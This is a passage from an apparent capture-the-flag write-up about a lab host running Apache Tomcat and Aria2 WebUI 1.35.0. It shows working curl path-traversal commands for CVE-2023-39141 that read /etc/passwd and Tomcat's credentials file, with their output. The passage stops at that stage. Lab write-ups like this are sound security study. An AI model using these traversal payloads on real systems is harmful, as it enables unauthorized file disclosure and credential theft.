There are four ports open.

- **22** (SSH)
- **6800** 
- **8080** (HTTP)
- **8888** (HTTP)

### Web 8080

Upon visiting `http://10.10.61.142:8080/`, we encounter an `Apache Tomcat/8.5.93` installation. Unfortunately, the `Manager Application` requires credentials, and the default credentials do not work.

![Web 8080 Index](web_8080_index.webp){: width="1200" height="600" }

### Web 8888

Checking `http://10.10.61.142:8888/`, we find an `Aria2 WebUI` installation.

![Web 8888 Index](web_8888_index.webp){: width="1200" height="600" }

In the `Settings -> Server info`, we can see the version is `1.35.0`.

![Web 8888 Server Info](web_8888_server_info.webp){: width="1200" height="600" }

## Shell as tomcat

### File Disclosure

Searching for vulnerabilities in `Aria2 Version 1.35.0`, we discover `CVE-2023-39141`, a **path traversal** vulnerability that leads to **file disclosure**. We can also find a **Proof of Concept (PoC)** [here](https://gist.github.com/JafarAkhondali/528fe6c548b78f454911fb866b23f66e).

Testing the payload from the **PoC**, it allows us to read files from the server.

```console
$ curl --path-as-is 'http://10.10.61.142:8888/../../../../../../../../../../../../../../../../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
...
tomcat:x:1002:1002::/opt/tomcat:/bin/false
orville:x:1003:1003::/home/orville:/bin/bash
wilbur:x:1004:1004::/home/wilbur:/bin/bash
```
{: .wrap }

### Tomcat Credentials

Now that we are able to read files from the server, we can utilize this to access the credentials for `Tomcat`, as they are stored in an **XML** file.

Knowing that the home directory for the `tomcat` user is `/opt/tomcat`, we can read the credentials at `/opt/tomcat/conf/tomcat-users.xml`.

```console
$ curl --path-as-is 'http://10.10.61.142:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[REDACTED]" roles="manager-script"/>

</tomcat-users>
```